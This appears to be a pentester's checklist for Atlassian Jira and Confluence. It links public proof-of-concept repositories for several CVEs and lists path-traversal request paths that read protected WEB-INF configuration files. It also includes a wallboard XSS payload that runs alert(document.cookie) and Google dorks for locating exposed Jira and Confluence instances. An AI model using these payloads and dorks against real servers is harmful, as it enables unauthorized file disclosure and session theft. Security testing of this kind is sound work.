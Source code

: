 [ ] CVE-2021-26084 (Confluence Server Webwork OGNL Injection)
```
https://github.com/march0s1as/CVE-2021-26084
```

[ ] CVE-2021-26086 (Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include)
```
PoC:
https://github.com/ColdFusionX/CVE-2021-26086
/_/;/WEB-INF/web.xml
/_/;/WEB-INF/decorators.xml
/_/;/WEB-INF/classes/seraph-config.xml
/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
/_/%3B/WEB-INF/web.xml
/_/%3B/WEB-INF/decorators.xml
/_/%3B/WEB-INF/classes/seraph-config.xml
/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties


References:
https://cloudsek.com/threatintelligence/jira-software-server-cve-2021-26086-vulnerability-actively-exploited-in-the-wild
https://github.com/ColdFusionX/CVE-2021-26086
https://raw.githubusercontent.com/crowdsecurity/sec-lists/master/web/jira_cve_2021-26086.txt
```

[ ] CVE-2022-0540 - Atlassian Jira Authentication Bypass
```
https://github.com/Pear1y/CVE-2022-0540-RCE
```

[ ] Google dork section
```
inurl:/plugins/servlet/wallboard/
(This will give all the Jira dashboard which might be vulnerable to XSS.) (Sensitive Data Exposure)
https://www.exploit-db.com/ghdb/6528
This is testing for confluence(Older version) Found CVE:-2018-20824

Created dork: inurl:"/plugins/servlet/Wallboard/"
EP:/?dashboardId=10102&dashboardId=10103&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=fadeZoom&random=false
https://twitter.com/hackersden_/status/1417573513859244032

Useful Jira dorks:
inurl:"dashboard.jspa"
inurl:xyz intitle:JIRA login
site:*/JIRA/login
intitle:"Log In JIRA" inurl:"8080:/login.jsp"
intext:"Welcome to JIRA" "Powered by a free Atlassian Jira community"
inurl:companyname intitle:JIRA login
inurl:visma intitle:JIRA login
intext:"Confluence" ext:jsp intitle:"Jira"
inurl:http://confluence. login.action
inurl:https://wiki. .com/confluence/
allinurl: /confluence/login.action?
intitle:dashboard-confluence
inurl:/ContactAdministrators!default.jspa
inurl:/secure/attachment/ filetype:log OR filetype:txt
```
[ ] Github recon
```
```